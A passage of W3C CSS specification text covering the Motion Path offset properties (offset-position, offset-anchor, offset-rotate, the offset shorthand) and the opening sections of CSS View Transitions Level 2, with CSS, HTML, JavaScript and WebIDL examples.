: The element does not have an offset starting position.

****auto****

: The offset starting position is the top-left corner of the box.

  > **Note:** This is the top-left corner of the element’s *own box*, not that of its containing block! It’s completely different from specifiying `top left`. It’s meant, for example, to allow a path() to start relative to the element’s own position.

****`<position>`****

: The offset starting position is the result of using the `<position>` to position a 0x0 object area within the box’s containing block.

> **Example:** This example shows positioning a box with `offset-position`.
>
> ```
> <style>
>     #wrap {
>         position: relative;
>         width: 300px;
>         height: 300px;
>         border: 1px solid black;
>     }
>
>     #box {
>         width: 100px;
>         height: 100px;
>         background-color: green;
>         position: absolute;
>         top: 100px;
>         left: 80px;
>         offset-position: auto;
>         offset-anchor: center;
>         offset-path: ray(45deg);
>     }
> </style>
> <body>
>     <div id="wrap">
>         <div id="box"></div>
>     </div>
> </body>
> ```
>
> 
>
> An example when `auto` is given to `offset-position`

> **Example:** This example shows the interaction with the `transform` property, and with an individual transform property (`rotate`). The motion path transform is a vertical translation moving (`left`, `top`) to `offset-position`.
>
> ```
> <style>
>     #wrap {
>         transform-style: preserve-3d;
>         width: 400px;
>         height: 350px;
>     }
>     .item {
>         position: absolute;
>         left: 200px;
>         top: 0px;
>         offset-position: 200px 100px; /* translates by 0px,100px */
>         offset-anchor: left top;
>         transform-origin: left top;
>         width: 130px;
>         height: 80px;
>         border-top-right-radius: 23px;
>     }
>     #box1 {
>         background-color: tomato;
>         offset-position: auto;
>     }
>     #box2 {
>         background-color: green;
>     }
>     #box3 {
>         background-color: navy;
>         rotate: 90deg; /* applied before motion path transform */
>     }
>     #box4 {
>         background-color: gold;
>         transform: rotate(90deg); /* applied after motion path transform */
>     }
> </style>
> <body>
>     <div id="wrap">
>         <div class="item" id="box1"></div>
>         <div class="item" id="box2"></div>
>         <div class="item" id="box3"></div>
>         <div class="item" id="box4"></div>
>     </div>
> </body>
> ```
>
> 
>
> An example when motion path and other transforms interact

> **Example:** This example uses `position` `static`, so `offset-position` generates translations from the normal flow positions. By amplifying these translations using `scale`, the normal flow is rotated 180 degrees around the `offset-position`, and the boxes are exploded away from each other.
>
> ```
> <style>
>     #wrap {
>         transform-style: preserve-3d;
>         width: 500px;
>         height: 250px;
>         line-height: 0px;
>     }
>     span {
>         position: static;
>         display: inline-block;
>         width: 100px;
>         height: 50px;
>         border-top-right-radius: 23px;
>         scale: 2.5 2.5; /* applied before motion path transform */
>         offset-position: center;
>         transform: scale(0.4); /* applied after motion path transform */
>     }
>     #box1 {
>         background-color: tomato;
>     }
>     #box2 {
>         background-color: green;
>     }
>     #box3 {
>         background-color: navy;
>     }
>     #box4 {
>         background-color: gold;
>     }
> </style>
> <body>
>     <div id="wrap">
>         <div>
>             <span id="box1"></span><span id="box2"></span>
>         </div>
>         <div>
>             <span id="box3"></span><span id="box4"></span>
>         </div>
>     </div>
> </body>
> ```
>
> 
>
> An example when motion path and scale interact

> **Example:** In this example, each `offset-position` value is ignored as `offset-path` is a `<geometry-box>`, but the other offset properties combine to have an effect equivalent to that for `offset-position` 'right bottom'.
>
> ```
> <style>
>     #wrap {
>         transform-style: preserve-3d;
>         width: 540px;
>         height: 420px;
>     }
>     .item {
>         position: absolute;
>         width: 90px;
>         height: 70px;
>         border-top-right-radius: 23px;
>         scale: 0.8 0.8; /* applied before motion path transform */
>         offset-path: padding-box;
>         offset-distance: 50%;
>         offset-rotate: 0deg;
>         offset-anchor: right bottom;
>         transform: scale(1.25); /* applied after motion path transform */
>     }
>     #box1 {
>         background-color: tomato;
>         position: static;
>         offset-position: auto; /* ignored */
>     }
>     #box2 {
>         background-color: green;
>         right: 0px;
>         top: 0px;
>         offset-position: 23% 45%; /* ignored */
>     }
>     #box3 {
>         background-color: navy;
>         left: 0px;
>         bottom: 0px;
>         offset-position: 34% 56px; /* ignored */
>     }
>     #box4 {
>         background-color: gold;
>         right: 0px;
>         bottom: 0px;
>         offset-position: 45px 67px; /* ignored */
>     }
> </style>
> <body>
>     <div id="wrap">
>         <div class="item" id="box1"></div>
>         <div class="item" id="box2"></div>
>         <div class="item" id="box3"></div>
>         <div class="item" id="box4"></div>
>     </div>
> </body>
> ```
>
> 
>
> An example when offset-position is ignored

#### 2.4. The Element’s Anchor Point: the `offset-anchor` property {#motion-1:offset-anchor-property}

| Field | Value |
| --- | --- |
| Name: | **offset-anchor** |
| [Value:](#css-values-4:value-defs) | auto \| `<position>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | transformable elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to the width and the height of the element’s reference box |
| [Computed value:](#css-cascade-6:computed) | the `auto` keyword or a computed `<position>` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

Defines the element’s **offset anchor point**—​the point that is aligned with the offset position along the offset path.

Values have the following meanings:

****auto****

: The anchor point is the same as the point indicated by `transform-origin`.

  Specifically, the computed value of `transform-origin` is resolved as a `<position>` against the element’s reference box.

****`<position>`****

: The anchor point is the result of resolving the `<position>` against the element’s reference box.

> **Issue:** Which box this is resolved against is being discussed in [Issue 503](https://github.com/w3c/fxtf-drafts/issues/503).

> **Example:** The following explains how to set the anchor point of the box.
>
> ```
> #plane {
>     offset-anchor: center;
> }
> ```
>
> The red dot in the middle of the shape indicates the anchor point of the shape.
>
> 
>
> A red dot in the middle of a plane shape indicates the shape’s anchor point.

> **Example:** This example shows an alignment of four boxes with different anchor points.
>
> ```
> <style>
>     body {
>         transform-style: preserve-3d;
>         width: 300px;
>         height: 300px;
>         border: 2px solid gray;
>         border-radius: 50%;
>     }
>     .box {
>         width: 50px;
>         height: 50px;
>         background-color: orange;
>         offset-position: 50% 50%;
>         offset-distance: 100%;
>         offset-rotate: 0deg;
>     }
>     #item1 {
>         offset-path: ray(45deg closest-side);
>         offset-anchor: right top;
>     }
>     #item2 {
>         offset-path: ray(135deg closest-side);
>         offset-anchor: right bottom;
>     }
>     #item3 {
>         offset-path: ray(225deg closest-side);
>         offset-anchor: left bottom;
>     }
>     #item4 {
>         offset-path: ray(315deg closest-side);
>         offset-anchor: left top;
>     }
> </style>
> <body>
>     <div class="box" id="item1"></div>
>     <div class="box" id="item2"></div>
>     <div class="box" id="item3"></div>
>     <div class="box" id="item4"></div>
> </body>
> ```
>
> 
>
> An example of `offset-anchor`

> **Example:** This example shows boxes centered at their offset-position.
>
> ```
> <style>
>     body {
>         width: 500px;
>         height: 500px;
>     }
>     .box {
>         background-color: mediumpurple;
>         offset-path: none;
>         offset-anchor: center;
>     }
>     #item1 {
>         offset-position: 90% 20%;
>         width: 60%;
>         height: 20%;
>     }
>     #item2 {
>         offset-position: 100% 100%;
>         width: 30%;
>         height: 10%;
>     }
>     #item3 {
>         offset-position: 50% 100%;
>         width: 20%;
>         height: 60%;
>     }
>     #item4 {
>         offset-position: 0% 100%;
>         width: 30%;
>         height: 90%;
>     }
> </style>
> <body>
>     <div class="box" id="item1"></div>
>     <div class="box" id="item2"></div>
>     <div class="box" id="item3"></div>
>     <div class="box" id="item4"></div>
> </body>
> ```
>
> 
>
> An example of 'offset-anchor: center'

> **Example:** This example shows how offset-anchor computes to their offset-position.
>
> ```
> <style>
>     body {
>         width: 500px;
>         height: 500px;
>     }
>     .box {
>         background-color: mediumpurple;
>         offset-path: none;
>         offset-anchor: auto;
>     }
>     #item1 {
>         offset-position: 90% 20%;
>         width: 60%;
>         height: 20%;
>     }
>     #item2 {
>         offset-position: 100% 100%;
>         width: 30%;
>         height: 10%;
>     }
>     #item3 {
>         offset-position: 50% 100%;
>         width: 20%;
>         height: 60%;
>     }
>     #item4 {
>         offset-position: 0% 100%;
>         width: 30%;
>         height: 90%;
>     }
> </style>
> <body>
>     <div class="box" id="item1"></div>
>     <div class="box" id="item2"></div>
>     <div class="box" id="item3"></div>
>     <div class="box" id="item4"></div>
> </body>
> ```
>
> 
>
> An example of 'offset-anchor: auto'

#### 2.5. Rotating To Match The Path: the `offset-rotate` property {#motion-1:offset-rotate-property}

| Field | Value |
| --- | --- |
| Name: | **offset-rotate** |
| [Value:](#css-values-4:value-defs) | [ auto \| reverse ] \|\| `<angle>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [transformable elements](#css-transforms-1:transformable-element) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | computed `<angle>` value, optionally preceded by auto |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

Defines a rotation component of the offset transform, possibly based on the direction of the offset path at the offset position. Values have the following meanings:

****auto `<angle>`?****

: The offset transform will have a rotation component equal to the difference between the offset path’s direction at the offset position and the direction of the positive X axis (that is, a line going toward the right). See SVG’s direction of a path for details on how to calculate this.

  If specified with an `<angle>`, the angle is added to the rotation component.

  > **Note:** In other words, if the offset path is moving to the right, `auto` doesn’t add any rotation. As it diverges from straight rightward, the rotation matches. By combining `auto` with an `<angle>`, you can adjust the "starting" rotation.

****reverse `<angle>`?****

: Identical to `auto`, but adds an additional `180deg` to the rotation.

****`<angle>`****

: When specified on its own, adds a rotation component to the offset transform of the specified angle. (That is, `offset-rotate: 45deg;` is similar to `transform: rotate(45deg)`; it’s just ordered to be part of the offset transform.)

> **Example:** The following examples use the shape of a plane. The red dot in the middle of the shape indicates the anchor point of the shape. When no offset properties are set, the shape is not translated or rotated along the path.
>
> 
>
> A black plane at the beginning of the path, with no offset properties set.
>
> When the shape’s anchor point is placed at different positions along the path and `offset-rotate` is `0deg`, the shape is not rotated.
>
> 
>
> A black plane at different positions on a blue dotted path without rotation transforms.
>
> If the `offset-rotate` property is set to `auto`, and the shape’s anchor point is placed at different positions along the path, the shape is rotated based on the gradient at the current position and faces the direction of the path at this position.
>
> 
>
> A black plane at different positions on a blue dotted path, rotated in the direction of the path.
>
> In this example, the `offset-rotate` property is set to `reverse`. The plane faces the opposite direction of the path at each position on the path.
>
> 
>
> A black plane at different positions on a blue dotted path, rotated in the opposite direction of the path.
>
> The last example sets the `offset-rotate` property to `-45deg`. The shape is rotated anticlockwise by 45 degree once and keeps the rotation at each position on the path.
>
> 
>
> A black plane at different positions on a blue dotted path, rotated by a fixed amount of degree.

> **Example:** This example shows how `auto` or `reverse` work when specified in combination with `<angle>`. The computed value of <angle> is added to the computed value of `auto` or `reverse`.
>
> ```
> <style>
>     body {
>         width: 300px;
>         height: 300px;
>         margin: 0px;
>         border: solid gray;
>         border-radius: 50%;
>     }
>     .circle {
>         offset-position: 150px 150px;
>         offset-distance: 86%;
>         width: 42px;
>         height: 42px;
>         background-color: mediumpurple;
>         border-radius: 50%;
>         display: flex;
>         align-items: center;
>         justify-content: center;
>     }
>     #item1 {
>         offset-path: ray(0deg closest-side);
>         offset-rotate: auto 90deg;
>     }
>     #item2 {
>         offset-path: ray(45deg closest-side);
>         offset-rotate: auto 90deg;
>     }
>     #item3 {
>         offset-path: ray(135deg closest-side);
>         offset-rotate: auto -90deg;
>     }
>     #item4 {
>         offset-path: ray(180deg closest-side);
>         offset-rotate: auto -90deg;
>     }
>     #item5 {
>         offset-path: ray(225deg closest-side);
>         offset-rotate: reverse 90deg;
>     }
>     #item6 {
>         offset-path: ray(-45deg closest-side);
>         offset-rotate: reverse -90deg;
>     }
> </style>
> <body>
>     <div class="circle" id="item1">1</div>
>     <div class="circle" id="item2">2</div>
>     <div class="circle" id="item3">3</div>
>     <div class="circle" id="item4">4</div>
>     <div class="circle" id="item5">5</div>
>     <div class="circle" id="item6">6</div>
> </body>
> ```
>
> 
>
> The boxes are rotated by the value of `auto` with a fixed amount of degree.

#### 2.6. The `offset` Shorthand {#motion-1:offset-shorthand}

| Field | Value |
| --- | --- |
| Name: | **offset** |
| [Value:](#css-values-4:value-defs) | [ `<'offset-position'>`? [ `<'offset-path'>` [ `<'offset-distance'>` \|\| `<'offset-rotate'>` ]? ]? ]! [ / `<'offset-anchor'>` ]? |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | [transformable elements](#css-transforms-1:transformable-element) |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This is a shorthand property for setting `offset-position`, `offset-path`, `offset-distance`, `offset-rotate` and `offset-anchor`. Omitted values are set to their initial values.

#### 2.7. Calculating The Offset Transform {#motion-1:transform}

The offset transform is a 2d transform, a translation followed by a rotation:

- Translate the element by the (X, Y) that aligns its anchor point with its offset position.
- Rotate the element by the angle specified by `offset-rotate`.

### 3. Equivalent Paths For `<basic-shape>` {#motion-1:paths}

The `<basic-shape>` definition given by [css-shapes] defines each function as producing a *shape*—​a 2-dimensional figure with an outline, an inside, and an outside.

This specification instead uses `<basic-shape>` as producing a *path*—​a line with a starting point, ending point, and direction, that happens to trace out a particular shape’s outline. The details of what makes up a path are defined by SVG. [SVG2]

The **equivalent path** for all the `<basic-shape>` values are:

****`<path()>`** **`<shape()>`****

: The path is the defined path. [SVG11]

****`<circle()>`** **`<ellipse()>`****

: The path is the outline of the circle/ellipse. It starts at the rightmost point of the circle/ellipse, and then is composed of four circular arcs, each comprising a quarter of the circle/ellipse, proceeding clockwise, ending with a segment-completing close path operation.

****rect()** **inset()** **xywh()****

: The path is the outline of the (possibly-rounded) rectangle, composed of four or eight segments (depending on whether rounded corners are specified or not), and ending with a segment-completing close path operation. It starts at the left end of the top straight edge, immediately to the right of any rounded corners, and continues to the right (clockwise).

****`<polygon()>`****

: The path is the outline of the polygon, composed of straight line segments connecting each coordinate pair to the following coordinate pair, and finally connecting the last back to the first, with a segment-completing close path operation.

For all of these, the direction at any point along the path is defined by SVG; see [SVG 2 § 9.4 Path directionality](https://w3c.github.io/svgwg/svg2-draft/paths.html#PathDirectionality).

> **Note:** All of these are meant to match the "equivalent paths" defined for the similar SVG shape elements.

> **Note:** This list should be in sync with the full set of `<basic-shape>` functions defined in [css-shapes]. If anything is missing, this should be considered a specification bug. This list might move to Shapes in the future, but for now is kept here as this spec is the only consumer of this information.

---

## CSS View Transitions Module Level 2 {#css-view-transitions-2}

- **Shortname:** `css-view-transitions-2`
- **Editor's Draft:** [https://drafts.csswg.org/css-view-transitions-2/](https://drafts.csswg.org/css-view-transitions-2/)
- **Published TR:** [https://www.w3.org/TR/css-view-transitions-2/](https://www.w3.org/TR/css-view-transitions-2/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-08-31

### 1. Introduction {#css-view-transitions-2:intro}

*This section is non-normative.*

This specification introduces a DOM API and associated CSS features that allow developers to create animated visual transitions, called **view transitions** between different states of a document or an element, or between distinct same-origin documents.

#### 1.1. Level 2 Updates {#css-view-transitions-2:intro-l2}

Level 2 defines the following, extending the model in [CSS-VIEW-TRANSITIONS-1]:

- [Cross-document view transitions](#css-view-transitions-2:cross-document-view-transitions), including the `@view-transition` rule and the algorithms that enable the cross-document view transition lifecycle.
- [Selective view transitions](#css-view-transitions-2:selective-vt), a way to match styles based on the existence of an active view transition, and more specifically based on the active view transition being of a certain type.
- [Sharing styles between view transition pseudo-elements](#css-view-transitions-2:shared-style-with-vt-classes), a way to declare a style once, and use it for multiple view transition pseudo-elements. This includes the `view-transition-class` property, and [additions to named pseudo-elements](#css-view-transitions-2:pseudo-element-class-additions)
- [Nested view transition groups](#css-view-transitions-2:view-transition-group-prop), a way to construct deeper hierarchies of view transition pseudo-elements, which in turn allows relative transforms and clipping of participating elements.
- [Scoped view transitions](#css-view-transitions-2:scoped-vt), a way to perform view transitions within the scope of a DOM subtree.

#### 1.2. Separating Visual Transitions from DOM Updates {#css-view-transitions-2:separating-transitions}

Traditionally, creating a visual transition between two document states required a period where both states were present in the DOM at the same time. In fact, it usually involved creating a specific DOM structure that could represent both states. For example, if one element was “moving” between containers, that element often needed to exist outside of either container for the period of the transition, to avoid clipping from either container or their ancestor elements.

This extra in-between state often resulted in UX and accessibility issues, as the structure of the DOM was compromised for a purely-visual effect.

View Transitions avoid this troublesome in-between state by allowing the DOM to switch between states instantaneously, then performing a customizable visual transition between the two states in another layer, using a static visual capture of the old state, and a live capture of the new state. These captures are represented as a tree of pseudo-elements (detailed in [§ 5.2 View Transition Pseudo-elements](#css-view-transitions-2:view-transition-pseudos)), where the old visual state co-exists with the new state, allowing effects such as cross-fading while animating from the old to new size and position.

#### 1.3. View Transition Customization {#css-view-transitions-2:customizing}

By default, `element.startViewTransition()` and `document.startViewTransition()` create a view transition consisting of a cross-fade of the entire root element between the two DOM states.

Developers can instead choose which descendant elements are captured independently using the `view-transition-name` CSS property, allowing these to be animated independently of the rest of the page. Since the transitional state (where both old and new visual captures exist) is represented as pseudo-elements, developers can customize each transition using familiar features such as [CSS Animations](#css-animations-2) and [Web Animations](#web-animations-2).

#### 1.4. View Transition Lifecycle {#css-view-transitions-2:lifecycle}

A successful view transition goes through the following phases:

1. Developer calls `document.startViewTransition(updateCallback)` or `element.startViewTransition(updateCallback)`, which returns a `ViewTransition`, *viewTransition*.
2. Current state is captured as the “old” state.
3. Rendering is paused within the view transition root element.
4. Developer’s `updateCallback` function, if provided, is called, which updates the document state.
5. `viewTransition.updateCallbackDone` fulfills.
6. Current state is captured as the “new” state.
7. Transition pseudo-elements are created. See [§ 5.2 View Transition Pseudo-elements](#css-view-transitions-2:view-transition-pseudos) for an overview of this structure.
8. Rendering is unpaused, revealing the transition pseudo-elements.
9. `viewTransition.ready` fulfills.
10. Pseudo-elements animate until finished.
11. Transition pseudo-elements removed.
12. `viewTransition.finished` fulfills.

The following set of diagrams demonstrate the transition phases that a view transition goes through while performing the above steps:

#### 1.5. Transitions as an enhancement {#css-view-transitions-2:transitions-as-enhancements}

A key part of the View Transition API design is that an animated transition is a visual *enhancement* to an underlying document state change. That means a failure to create a visual transition, which can happen due to misconfiguration or device constraints, will not prevent the developer’s `ViewTransitionUpdateCallback` being called, even if it’s known in advance that the transition animations cannot happen.

For example, if the developer calls `skipTransition()` at the start of the [view transition lifecycle](#css-view-transitions-2:lifecycle), the steps relating to the animated transition, such as creating the view transition tree, will not happen. However, the `ViewTransitionUpdateCallback` will still be called. It’s only the visual transition that’s skipped, not the underlying state change.

> **Note:** If the DOM change should also be skipped, then that needs to be handled by another feature. `navigateEvent.signal` is an example of a feature developers could use to handle this.

Although the View Transition API allows DOM changes to be asynchronous via the `ViewTransitionUpdateCallback`, the API is not responsible for queuing or otherwise scheduling DOM changes beyond any scheduling needed for the transition itself. Some asynchronous DOM changes can happen concurrently (e.g if they’re happening within independent components), whereas others need to queue, or abort an earlier change. The callback execution order is only specified for callbacks that result from view transitions on the same root element, or on elements related by DOM ancestors. In general, the scheduling order is best left to a feature or framework that has a more holistic view of the application.

#### 1.6. Rendering Model {#css-view-transitions-2:rendering-model}

View Transition works by replicating an element’s rendered state using UA generated pseudo-elements. Aspects of the element’s rendering which apply to the element itself or its descendants, for example visual effects like `filter` or `opacity` and clipping from `overflow` or `clip-path`, are applied when generating its image in Capture the image.

However, properties like `mix-blend-mode` which define how the element draws when it is embedded can’t be applied to its image. Such properties are applied to the element’s corresponding `::view-transition-group()` pseudo-element, which is meant to generate a box equivalent to the element.

If the `::view-transition-group()` has a corresponding element in the "new" states, the browser keeps the properties copied over to the `::view-transition-group()` in sync with the DOM element in the "new" state. If the `::view-transition-group()` has corresponding elements both in the "old" and "new" state, and the property being copied is interpolatable, the browser also sets up a default animation to animate the property smoothly.

#### 1.7. Examples {#css-view-transitions-2:examples}

> **Example:** Taking a page that already updates its content using a pattern like this:
>
> ```js
> function spaNavigate(data) {
>   updateTheDOMSomehow(data);
> }
> ```
>
> A view transition could be added like this:
>
> ```js
> function spaNavigate(data) {
>   // Fallback for browsers that don't support this API:
>   if (!document.startViewTransition) {
>     updateTheDOMSomehow(data);
>     return;
>   }
>
>   // With a transition:
>   document.startViewTransition(() => updateTheDOMSomehow(data));
> }
> ```
>
> This results in the default transition of a quick cross-fade:
>
> The cross-fade is achieved using CSS animations on a [tree of pseudo-elements](#css-view-transitions-2:view-transition-pseudos), so customizations can be made using CSS. For example:
>
> ```css
> ::view-transition-old(root),
> ::view-transition-new(root) {
>   animation-duration: 5s;
> }
> ```
>
> This results in a slower transition:

> **Example:** Building on the previous example, motion can be added:
>
> ```css
> @keyframes fade-in {
>   from { opacity: 0; }
> }
>
> @keyframes fade-out {
>   to { opacity: 0; }
> }
>
> @keyframes slide-from-right {
>   from { transform: translateX(30px); }
> }
>
> @keyframes slide-to-left {
>   to { transform: translateX(-30px); }
> }
>
> ::view-transition-old(root) {
>   animation: 90ms cubic-bezier(0.4, 0, 1, 1) both fade-out,
>     300ms cubic-bezier(0.4, 0, 0.2, 1) both slide-to-left;
> }
>
> ::view-transition-new(root) {
>   animation: 210ms cubic-bezier(0, 0, 0.2, 1) 90ms both fade-in,
>     300ms cubic-bezier(0.4, 0, 0.2, 1) both slide-from-right;
> }
> ```
>
> Here’s the result:

> **Example:** Building on the previous example, the simple "whole document" transition displayed a visible judder in the purple heading bar, and had the heading text always slide to the left even when it was "moving" to the right in the 1->2 transition. To fix these issues, the header and text within the header can be given their own `view-transition-name` for the transition, which creates a separate `::view-transition-group()`:
>
> ```css
> .main-header {
>   view-transition-name: main-header;
> }
>
> .main-header-text {
>   view-transition-name: main-header-text;
>   /* Give the element a consistent size, assuming identical text: */
>   width: fit-content;
> }
> ```
>
> By default, these groups will transition size and position from their “old” to “new” state, while their visual states cross-fade:

> **Example:** Building on the previous example, let’s say some pages have a sidebar:
>
> In this case, things would look better if the sidebar was static if it was in both the “old” and “new” states. Otherwise, it should animate in or out.
>
> The `:only-child` pseudo-class can be used to create animations specifically for these states:
>
> ```css
> .sidebar {
>   view-transition-name: sidebar;
> }
>
> @keyframes slide-to-right {
>   to { transform: translateX(30px); }
> }
>
> /* Entry transition */
> ::view-transition-new(sidebar):only-child {
>   animation: 300ms cubic-bezier(0, 0, 0.2, 1) both fade-in,
>     300ms cubic-bezier(0.4, 0, 0.2, 1) both slide-from-right;
> }
>
> /* Exit transition */
> ::view-transition-old(sidebar):only-child {
>   animation: 150ms cubic-bezier(0.4, 0, 1, 1) both fade-out,
>     300ms cubic-bezier(0.4, 0, 0.2, 1) both slide-to-right;
> }
> ```
>
> For cases where the sidebar has both an “old” and “new” state, the default animation is correct.

> **Example:** Not building from previous examples this time, let’s say we wanted to create a circular reveal from the user’s cursor. This can’t be done with CSS alone.
>
> Firstly, in the CSS, allow the “old” and “new” states to layer on top of one another without the default blending, and prevent the default cross-fade animation:
>
> ```css
> ::view-transition-image-pair(root) {
>   isolation: auto;
> }
>
> ::view-transition-old(root),
> ::view-transition-new(root) {
>   animation: none;
>   mix-blend-mode: normal;
> }
> ```
>
> Then, the JavaScript:
>
> ```js
> // Store the last click event
> let lastClick;
> addEventListener('click', event => (lastClick = event));
>
> function spaNavigate(data) {
>   // Fallback for browsers that don't support this API:
>   if (!document.startViewTransition) {
>     updateTheDOMSomehow(data);
>     return;
>   }
>
>   // Get the click position, or fallback to the middle of the screen
>   const x = lastClick?.clientX ?? innerWidth / 2;
>   const y = lastClick?.clientY ?? innerHeight / 2;
>   // Get the distance to the furthest corner
>   const endRadius = Math.hypot(
>     Math.max(x, innerWidth - x),
>     Math.max(y, innerHeight - y)
>   );
>
>   // Create a transition:
>   const transition = document.startViewTransition(() => {
>     updateTheDOMSomehow(data);
>   });
>
>   // Wait for the pseudo-elements to be created:
>   transition.ready.then(() => {
>     // Animate the root's new view
>     document.documentElement.animate(
>       {
>         clipPath: [
>           \`circle(0 at ${x}px ${y}px)\`,
>           \`circle(${endRadius}px at ${x}px ${y}px)\`,
>         ],
>       },
>       {
>         duration: 500,
>         easing: 'ease-in',
>         // Specify which pseudo-element to animate
>         pseudoElement: '::view-transition-new(root)',
>       }
>     );
>   });
> }
> ```
>
> And here’s the result:

### 2. API {#css-view-transitions-2:api}

#### 2.1. Additions to `Document` {#css-view-transitions-2:additions-to-document-api}

```webidl
partial interface Document {
  ViewTransition startViewTransition(
    optional (ViewTransitionUpdateCallback or StartViewTransitionOptions) callbackOptions = {}
  );
  readonly attribute ViewTransition? activeViewTransition;
};

callback ViewTransitionUpdateCallback = Promise<any> ();

dictionary StartViewTransitionOptions {
  ViewTransitionUpdateCallback? update = null;
  sequence<DOMString>? types = null;
};
```

**`viewTransition = document.startViewTransition(updateCallback)`**

: Starts a new view transition (canceling the `document`’s existing active view transition, if any).

  `updateCallback`, if provided, is called asynchronously, once the current state of the document is captured. Then, when the promise returned by `updateCallback` fulfills, the new state of the document is captured and the transition is initiated.

  Note that `updateCallback`, if provided, is *always* called, even if the transition cannot happen. The transition is an enhancement around the state change, so a failure to create a transition never prevents the state change. See [§ 1.5 Transitions as an enhancement](#css-view-transitions-2:transitions-as-enhancements) for more details on this principle.

  If the promise returned by `updateCallback` rejects, the transition is skipped.

##### 2.1.1. `startViewTransition()` Method Steps {#css-view-transitions-2:ViewTransition-prepare}

The method steps for **`startViewTransition(callbackOptions)`** are as follows:

1. Perform the `Element` `startViewTransition()` method steps given *callbackOptions*, but for the document root element, and return the result.

##### 2.1.2. `activeViewTransition` Property {#css-view-transitions-2:doc-activeviewtransition}

In order to provide ergonomic behavior, the active view transition is exposed to script via a document property.

****`activeViewTransition`**,  of type ViewTransition, readonly, nullable**

: Returns the active view transition for the document, or null if there is no active view transition.

> **Note:** An `element.startViewTransition()` call does not update `document.activeViewTransition`, but will update `activeViewTransition` on the `element`.

#### 2.2. Additions to `Element` {#css-view-transitions-2:additions-to-element-api}

```webidl
partial interface Element {
  ViewTransition startViewTransition(
    optional (ViewTransitionUpdateCallback or StartViewTransitionOptions) callbackOptions = {}
  );
  readonly attribute ViewTransition? activeViewTransition;
};
```

**`viewTransition = el.startViewTransition(updateCallback)`**

: Starts a new view transition (potentially canceling a conflicting view transition).

  `updateCallback`, if provided, is called asynchronously, once the current state of the element and its subtree is captured. Then, when the promise returned by `updateCallback` fulfills, the new state of the element and its subtree is captured and the transition is initiated.

  Note that `updateCallback`, if provided, is *always* called, even if the transition cannot happen. The transition is an enhancement around the state change, so a failure to create a transition never prevents the state change. See [§ 1.5 Transitions as an enhancement](#css-view-transitions-2:transitions-as-enhancements) for more details on this principle.

  If the promise returned by `updateCallback` rejects, the transition is skipped.

##### 2.2.1. `startViewTransition()` Method Steps {#css-view-transitions-2:Element-ViewTransition-prepare}

The method steps for **`startViewTransition(callbackOptions)`** are as follows:

1. Let *document* be this’s relevant global object’s associated document.
2. Let *viewTransition* be a new `ViewTransition` object in *document*’s relevant Realm, with root element set to this.
3. If *callbackOptions* is a `ViewTransitionUpdateCallback`, set *viewTransition*’s update callback to *callbackOptions*.

   Otherwise, if *callbackOptions* is a `StartViewTransitionOptions`, then set *viewTransition*’s update callback to *callbackOptions*’s `update`.
4. If this’s principal box is not rendered, or is an internal table box other than `table-cell`, or is an internal ruby box or a non-atomic inline-level box, then skip *viewTransition* with an "`InvalidStateError`" `DOMException`, and return *viewTransition*.

   > **Note:** This ensures that this has a principal box and qualifies for layout containment.
5. If this is not the document root element, force this to have both layout containment and view transition scoping for the duration of the transition.
6. If *document*’s active view transition is not null and its outbound post-capture steps is not null, then:

  1. Skip *viewTransition* with an "`InvalidStateError`" `DOMException`.

     > **Note:** The *viewTransition*’s `types` are ignored here because the transition is never activated.
  2. Return *viewTransition*.

   > **Note:** This ensures that a same-document transition that started after firing `pageswap` is skipped.
7. If this’s active view transition is not null, then skip that view transition with an "`AbortError`" `DOMException` in this’s relevant Realm.

   > **Note:** This can result in two asynchronous update callbacks running concurrently (and therefore possibly out of sequence): one for the this’s current active view transition, and another for this *viewTransition*. As per the [design of this feature](#css-view-transitions-2:transitions-as-enhancements), it’s assumed that the developer is using another feature or framework to correctly schedule these DOM changes.
8. Set this’s active view transition to *viewTransition*.
9. If this is the document root element, set *document*’s active view transition to *viewTransition*.

   > **Note:** The view transition process continues in setup view transition, via perform pending transition operations.
10. If *callbackOptions* is a `StartViewTransitionOptions`, set *viewTransition*’s active types to a clone of `types` as a set.
11. Return *viewTransition*.

##### 2.2.2. `activeViewTransition` Property {#css-view-transitions-2:element-activeviewtransition}

Similar to [Document.activeViewTransition](#css-view-transitions-2:doc-activeviewtransition), the active view transition of an element is exposed to script via a property on the element.

****`activeViewTransition`**,  of type ViewTransition, readonly, nullable**

: Returns the active view transition for the element, or null if there is no active view transition.

#### 2.3. The `ViewTransition` interface {#css-view-transitions-2:the-domtransition-interface}

```webidl
[Exposed=Window]
interface ViewTransition {
  readonly attribute Promise<undefined> updateCallbackDone;
  readonly attribute Promise<undefined> ready;
  readonly attribute Promise<undefined> finished;
  undefined skipTransition();
  [SameObject] readonly attribute ViewTransitionTypeSet types;
  readonly attribute Element transitionRoot;
  undefined waitUntil(Promise<any> promise);
};
```

The `ViewTransition` interface represents and controls a single same-document view transition, i.e. a transition where the starting and ending document are the same, possibly with changes to the document’s DOM structure.

**`viewTransition.updateCallbackDone`**

: A promise that fulfills when the promise returned by `updateCallback` fulfills, or rejects when it rejects.

  > **Note:** The View Transition API wraps a DOM change and creates a visual transition. However, sometimes you don’t care about the success/failure of the transition animation, you just want to know if and when the DOM change happens. `updateCallbackDone` is for that use-case.)

**`viewTransition.ready`**

: A promise that fulfills once the pseudo-elements for the transition are created, and the animation is about to start.

  It rejects if the transition cannot begin. This can be due to misconfiguration, e.g. if `updateCallbackDone` returns a rejected promise.

